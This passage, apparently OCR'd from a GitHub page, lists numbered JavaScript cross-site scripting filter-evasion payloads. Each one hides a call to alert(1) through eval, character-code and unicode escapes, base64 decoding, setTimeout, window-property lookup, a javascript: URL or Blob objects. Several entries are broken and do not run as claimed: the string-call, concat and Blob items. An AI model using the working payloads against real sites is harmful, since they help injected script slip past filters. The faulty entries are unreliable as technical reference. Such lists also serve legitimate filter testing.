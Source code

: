 3. **Creating Functions from Strings:**
    ```javascript
    eval(String.fromCharCode(97,108,101,114,116)+'(1)')
    ```

4. **Unicode Character Decoding:**
    ```javascript
    eval("\\u0061\\u006c\\u0065\\u0072\\u0074(1)")
    ```

5. **Running through Hypertext Links:**
    ```javascript
    location.href="javascript:alert(1)"
    ```

6. **Using SetTimeout for Indirect Execution:**
    ```javascript
    setTimeout('al'+'ert(1)',0)
    ```

7. **Indirect Access via Window Object:**
    ```javascript
    window['al' + 'ert'](1)
    ```

8. **Base64 Encoding and Decoding:**
    ```javascript
    eval(atob('YWxlcnQoMSk='))
    ```

9. **String Manipulation and Function Constructor:**
    ```javascript
    ('a' + 'l' + 'e' + 'r' + 't')(1)
    ```

10. **Execution via URL Object:**
     ```javascript
     URL.createObjectURL(new Blob(['alert(1)'], {type: 'text/javascript'}))
     ```

11. **Using the Blob Builder:**
     ```javascript
     new Blob(['al'+'ert(1)'], {type: 'text/javascript'})
     ```

12. **Use of String Methods for Command Construction:**
     ```javascript
     'alert'.concat('(1)')
     ```

13. **Dynamic Object Property Assignment:**
     ```javascript
     ({['a'+'l'+'e'+'r'+'t']:alert})['alert'](1)
     ```

14. **Array and Join Manipulation:**
     ```javascript
     [,'al','ert'].join('')(1)
     ```
